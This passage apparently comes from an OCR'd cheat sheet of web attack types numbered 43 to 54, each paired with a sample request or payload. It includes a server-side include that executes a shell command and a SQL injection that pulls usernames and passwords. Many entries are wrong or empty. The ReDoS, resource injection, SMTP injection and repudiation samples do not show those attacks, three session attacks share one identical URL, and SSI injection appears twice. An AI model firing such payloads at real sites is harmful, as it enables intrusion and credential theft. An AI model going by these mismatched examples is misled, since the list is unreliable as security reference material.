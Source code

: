 #### 43. Regular expression Denial of Service (ReDoS)
```plaintext
http://example.com/index.php?input=a+a+a+a+a+a+a+a+a+a+a+
```

#### 44. Repudiation Attack
```http
http://example.com/deleteAccount?user=admin
```

#### 45. Resource Injection
```html
<img src="http://example.com/image.jpg">
```

#### 46. Server-Side Includes (SSI) Injection
```html
<!--#exec cmd="ls"-->
```

#### 47. Session Fixation
```http
http://example.com/index.php?sessionid=abc123
```

#### 48. Session Hijacking Attack
```http
http://example.com/index.php?sessionid=abc123
```

#### 49. Session Prediction
```http
http://example.com/index.php?sessionid=abc123
```

#### 50. Setting Manipulation
```http
http://example.com/index.php?setting=admin
```

#### 51. Special Element Injection
```html
http://example.com/index.php?input=<div>Special Element</div>
```

#### 52. SMTP Injection
```http
http://webmailexample.com/index.php?mail=recipient@example.com&body=Hello
```

#### 53. SQL Injection
```http
http://example.com/index.php?id=1' UNION SELECT username, password FROM users--
```

#### 54. SSI Injection
```html
<!--#exec cmd="ls"-->
```
